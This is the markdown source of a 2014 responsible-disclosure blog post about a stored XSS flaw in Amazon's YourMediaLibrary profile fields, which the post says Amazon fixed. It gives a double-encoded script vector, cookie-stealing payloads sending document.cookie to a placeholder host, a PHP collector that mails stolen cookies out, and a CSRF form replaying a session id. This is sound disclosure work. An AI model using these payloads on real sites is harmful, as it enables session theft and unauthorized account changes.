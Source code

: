 ```yaml
---
layout: post
title:  "Disclosure: Stored XSS in Amazon.com with CSRF Bypass"
date:   2014-06-02 09:20:01
categories: responsible-disclosure
permalink: post/stored-xss-in-amazon-com-with-csrf-bypass/
---
```


### Description

The **Amazon YourMediaLibrary** is vulnerable to stored `XSS Vulnerability`, the attacker can redirect an user to his profile page and steal user-cookie to perform an `CSRF Attack`.

> Your Media Library is a secure location from which you retrieve all digital products, including eDocs, Amazon Upgrades, the free electronic user manuals that come with some products, and free music files that are available with select CDs.

### Proof of Concept of Stored XSS - [Double Encoding Technique][encoding]:

[encoding]: https://www.owasp.org/index.php/Double_Encoding "OSWAP - Double Encoding Technique"

**Let's go:**

* First go to yourmedialibrary page [Amazon YourMediaLibrary](https://www.amazon.com/gp/ays/index.html, "Amazon YourMediaLibrary") and click to Profile
* Insert this vector into `Interests` or `In my own words` inputs:

		%253Cscript%253Ealert(document.cookie)%253C%252Fscript%253E

* Wait for auto-saving or click “Save”
* Back to profile page to see the injected code

### Possible Attack Scenario with CSRF SessionID Bypass:

Since many values of cookie were setted like **HttpOnly**, the malicious user can’t hijack the session but anyway It can execute an arbiratry operations through an `CSRF Attack` knowning the `session-id` saved in the `user-cookie` (however the session-id does the function of security-token):

1. Generate a base html payload to steal user cookie:

		<script>
			location.href='//land-domain.com/steal.php?cookie='+document.cookie;
		</script>

2. Or if you want a payload without redirect:

		<img style='display:none' src=x onerror=this.src='//land-domain.com/?cookie='+document.cookie>

3. Attacker adds this double encoded vector into his interests in settings profile page:

		%253Cscript%253Elocation.href%253D%2527//land-domain.com/steal.php
		%252Fcookie=%2527%252Bdocument.cookie%253C%252Fscript%253E

4. Then It redirects the user to his medialibrary profile page to steal and store cookie by remote malicious file (basic steal.php)

		$ echo "
		<?php
		  mail('attacker@mailz.org', 'Cookie', $_GET['cookie']);
		  header('Location: '.$_SERVER['HTTP_REFERER']);
		?>" > /var/www/land-domain.com/steal.php

5. Now he’s got a ‘session-id=180-0536506-4528302′ of user (that is not secured).

6. With this simple CSRF page:

		<html>
		<head>
			<title>Amazon CSRF</title>
		</haed>
		<body>
			<form method="POST" action="https://www.amazon.com/gp/ays/ajax/setProfile.html">
				<input type="hidden" name="key" value="inMyOwnWords">
				<input type="hidden" name="value" value="injected">
				<input type="hidden" name="sessionId" value="180-0536506-4528302">
			</form>
		</body>
		</html>

7. The malicious user can change all profile settings of user.

### Example demostration screen

<a href="/images/security/responsible-disclosure/amazon-xss.png">![Prestashop Demo XSS](/images/security/responsible-disclosure/amazon-xss.png)</a>

### Disclosure:

* **28/05/2014** – Report to Amazon Security Team
* **29/05/2014** – Received a response from amazon that assign a ticket
* **01/06/2014** – Amazon fix the bug
* **02/06/2014** – Public disclosure
